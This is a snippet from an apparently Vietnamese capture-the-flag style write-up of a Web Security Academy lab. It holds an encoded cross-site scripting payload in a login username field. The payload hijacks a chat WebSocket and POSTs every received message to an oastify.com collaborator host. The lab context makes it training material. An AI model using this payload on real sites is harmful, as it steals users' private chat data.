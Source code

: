 ```
<script>
    document.location = "https://cms-0ade001903f880e5a4c8b4e100d500ce.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%64%65%30%30%31%39%30%33%66%38%38%30%65%35%61%34%63%38%62%34%65%31%30%30%64%35%30%30%63%65%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%33%68%6c%6a%7a%73%72%72%34%31%64%37%63%76%6f%71%77%72%71%34%65%71%78%79%64%70%6a%67%37%66%76%34%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=123456";
</script>
```

![image-20250603221754074](./image/image-20250603221754074.png)

Nếu dùng exploit server nhận message, đoạn mã chèn vào sẽ như trong hình:

![image-20250603221829880](./image/image-20250603221829880.png)
